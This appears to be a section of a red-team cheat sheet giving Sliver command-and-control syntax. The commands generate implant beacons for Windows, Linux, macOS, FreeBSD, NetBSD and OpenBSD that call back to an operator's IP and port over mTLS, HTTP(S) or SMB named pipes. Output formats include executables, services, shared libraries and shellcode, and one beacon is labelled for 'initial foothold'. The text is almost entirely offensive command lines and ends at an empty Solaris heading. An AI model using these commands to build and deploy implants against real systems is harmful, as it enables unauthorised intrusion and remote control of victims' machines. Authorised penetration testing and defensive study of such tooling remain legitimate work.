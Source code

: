 ### 4.1.2 - Usage

#### 4.1.2.1 - Syntax

* Generate beacons

```
sliver > generate beacon -a <architecture> -l -S <seconds> -m <IP>:<PORT> -o <platform> -f <format> -s /path/to/folder

sliver > generate beacon -a <architecture> -l -S <seconds> -m <IP>:<PORT> -o <platform> -f <format> -s /path/to/folder

sliver > generate beacon -a <architecture> -l -S <seconds> -b http[s]://<IP>:<PORT> -o <platform> -f <format> -s /path/to/folder
```

#### 4.1.2.2 - Windows

* Initial Foothold beacon

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | [386 | x86] | arm | arm64> -o windows -f <exe | service | shared | shellcode> -s /path/to/directory`

* Name-piped SMB beacon

`sliver > generate beacon -n <IP>//./pipe/<name_pipe> -a <[amd64 | x64] | [386 | x86] | arm | arm64> -o windows -f <exe | service | shared | shellcode> -s /path/to/directory`

#### 4.1.2.3 - Linux

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | [386 | x86] | arm | arm64 | loong64 | mips | mips64 | mips64le | mipsle | ppc64 | ppc64le | riscv64 | s390x> -o linux -f <exe | shared | shellcode> -s /path/to/directory`

#### 4.1.2.4 - OSX

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm64> -o darwin -f <exe | shared | shellcode> -s /path/to/directory`

#### 4.1.2.5 - BSD

* FreeBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o freebsd -f exe -s /path/to/directory`

* NetBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o netbsd -f exe -s /path/to/directory`

* OpenBSD

`sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -a <[amd64 | x64] | arm | arm64 | riscv64> -o openbsd -f exe -s /path/to/directory`

#### 4.1.2.6 - Solaris
